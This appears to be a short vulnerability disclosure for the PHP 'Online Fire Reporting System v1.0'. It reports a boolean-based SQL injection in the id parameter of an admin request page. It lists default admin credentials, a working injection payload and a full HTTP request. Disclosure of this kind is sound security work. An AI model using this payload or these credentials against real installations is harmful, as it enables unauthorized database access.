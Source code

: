 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/requests/take_action.php?id=

Vulnerability location: /ofrs/admin/requests/take_action.php?id=, id

Current database name: ofrs_db,length is 7

[+] Payload: /ofrs/admin/requests/take_action.php?id=6%27%20or%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /ofrs/admin/requests/take_action.php?id=6%27%20or%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 2337
![image](https://user-images.githubusercontent.com/54017627/170817624-53ecb83d-feef-4be0-aee1-b22bcdad9f49.png)

![image](https://user-images.githubusercontent.com/54017627/170817661-4d5d6f8a-7317-41db-ba14-658de5fa1a1d.png)

When length (database ()) = 7, Content-Length: 2075
![image](https://user-images.githubusercontent.com/54017627/170817613-e5bdbdb9-c66b-440b-b1e6-68f84fd06d72.png)

![image](https://user-images.githubusercontent.com/54017627/170817648-4472b5e9-8d2d-4bc9-81dd-2d6a60a5e2d5.png)
